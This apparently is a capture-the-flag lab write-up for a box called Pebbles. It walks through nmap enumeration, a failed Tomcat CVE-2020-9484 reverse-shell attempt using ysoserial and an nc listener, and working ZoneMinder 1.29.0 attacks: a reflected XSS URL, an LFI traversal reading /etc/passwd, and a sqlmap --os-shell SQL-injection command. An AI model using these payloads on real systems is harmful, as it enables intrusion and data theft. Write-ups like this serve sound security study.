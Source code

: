 Running our nmap scan we have

```bash
# Nmap 7.94SVN scan initiated Tue Feb 20 12:15:03 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.239.52
Nmap scan report for 192.168.239.52
Host is up (0.13s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aa:cf:5a:93:47:18:0e:7f:3d:6d:a5:af:f8:6a:a5:1e (RSA)
|   256 c7:63:6c:8a:b5:a7:6f:05:bf:d0:e3:90:b5:b8:96:58 (ECDSA)
|_  256 93:b2:6a:11:63:86:1b:5e:f5:89:58:52:89:7f:f3:42 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
|_http-title: Pebbles
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3305/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-favicon: Apache Tomcat
|_http-title: Tomcat
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 20 12:17:35 2024 -- 1 IP address (1 host up) scanned in 152.21 seconds
```



Checking the FTP service running on port `21` we currently don't have permissions to connect via anonymous access also no reliable exploit out there



![](https://i.imgur.com/uXTGfJS.png)



Checking port 80/HTTP we have this login page, also viewing page source doesn't seem to give any reliable information


![](https://i.imgur.com/PbqwyR5.png)


![](https://i.imgur.com/6VeTbF2.png)


Checking the port 3305/HTTP we do have a default apache2 web page, seems cool we could run directory bruteforce on this one :P, anyways page-source doesn't contain juicy information also.


![](https://i.imgur.com/jBd4RFR.png)


Running directory bruteforce with `ffuf` looks like we have nothing really to show there



![](https://i.imgur.com/qEwjEui.png)


Checking port 8080/HTTP we do have a tomcat service running on version `9.0`



![](https://i.imgur.com/cp5PuOs.png)



Reading [this](https://github.com/PenTestical/CVE-2020-9484) i was made to understand there is RCE on this version known as `CVE-2020-9484`, let go ahead and see if we can exploit this


Firstly, you need to download and setup `ysoserial`


```bash
cd /opt

sudo git clone https://github.com/frohoff/ysoserial

sudo wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial-master.jar
```


Then install the script


```bash
git clone https://github.com/PenTestical/CVE-2020-9484 && cd CVE-2020-9484/ ; sudo chmod +x CVE-2020-9484.sh

./CVE-2020-9484.sh --help
```


Then Open the script and replace the IP address as line `13`, with the attacker IP for the reverse shell to work



![](https://i.imgur.com/1VH1YQC.png)



Start up a python server as the script generates a payload to be used in the process of executing our reverse shell


```bash
sudo python3 -m http.server 80
```


Start up your listener also


```bash
nc -nvlp 4444
```


Now run the script with the IP address of the target system you want to attack:


```
./CVE-2020-9484.sh TARGET-IP
```


![](https://i.imgur.com/v02LX1f.png)


Ooops, turns out not to be successful, let enumerate harder :P. Running directory bruteforce on port `80` again with a different word lists, we have a new directory called `/zm`



![](https://i.imgur.com/JoLpYkd.png)



Navigating to the directory on the webpage we have this **Zone Monitor Console** on V1.29.0



![](https://i.imgur.com/Xw2IgGC.png)




Checking for exploits i found this [blog](https://vk9-sec.com/zoneminder-1-291-30-exploitation-multiple-vulnerabilities/) in which all PoC's turned out to be successful, we will look at few though


### **XSS (Reflected)**


Payload -:

```
http://HOST/zm/index.php?view=request&request=log&task=download&key=a9fef1f4&format=texty9fke'<html><head></head><body><script>alert(1)</script></body></html>ayn2h
```


![](https://i.imgur.com/TAmkVIB.png)


### **LFI**

payload


```
http://HOST/zm/index.php?view=file&path=../../../../../../etc/passwd
```



![](https://i.imgur.com/iaUZw5P.png)



### **RCE**



Go ahead and intercept the request of the page with burp suite and save the request to a file as shown below -:


![](https://i.imgur.com/DBUEofV.png)


> Make sure to append `view=request&request=log&task=query&limit=100&minTime=5`


Then go ahead and run `sqlmap` specifying the option that we want a shell



```
❯ sqlmap -r request.txt --dbms mysql --os-shell --data POST
```


Note that this will run for about 10 minutes 😭, Patience!!!, Then you should have a shell


![](https://i.imgur.com/wxRSupR.png)



Running a ping scan we can see our target can truly communicate with us



![](https://i.imgur.com/7BlyjM7.png)

But that is it buddy, yeah that is it, nothing works from here, i have followed walkthroughs for walkthroughs, Nothing works



GG
